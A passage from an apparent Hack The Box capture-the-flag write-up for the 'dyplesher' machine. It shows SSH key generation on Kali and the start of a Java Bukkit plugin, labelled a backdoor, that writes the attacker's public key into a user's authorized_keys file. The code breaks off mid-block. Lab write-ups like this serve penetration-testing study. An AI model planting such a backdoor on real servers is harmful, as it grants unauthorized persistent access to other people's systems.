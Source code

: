 ![](../../.gitbook/assets/16-code.png)



```text
┌──(zweilos㉿kali)-[~/htb/dyplesher] 
└─$ ssh-keygen -t ecdsa Generating public/private ecdsa key pair. 
Enter file in which to save the key (/home/zweilos/.ssh/id_ecdsa): minato.key 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in minato.key Your public key has been saved in minato.key.pub

┌──(zweilos㉿kali)-[~/htb/dyplesher] 
└─$ cat minato.key.pub
ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNcXZSv1c0okURSUinJWRCJyRJH64w1sBdoYgGDSC1IC/yoEEyTtVV7DgbjuAumrFXWifccQOywvSBG+MDWwlzw= zweilos@kali
```

I created a new ssh key 

```java
/**
 * backdoor for dyplesher
 *
 * @author zweilos
 */
import org.bukkit.plugin.java.JavaPlugin;

import java.io.*;

public class Plugin extends JavaPlugin {

    @Override
    public void onEnable() {

        try {
            Writer minatoWrite = new BufferedWriter(new OutputStreamWriter(new FileOutputStream("/home/MinatoTW/.ssh/authorized_keys"), "utf-8"));
            minatoWrite.write("ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNcXZSv1c0okURSUinJWRCJyRJH64w1sBdoYgGDSC1IC/yoEEyTtVV7DgbjuAumrFXWifccQOywvSBG+MDWwlzw= zweilos@kali");
            minatoWrite.close();
        } catch(IOException e){
```
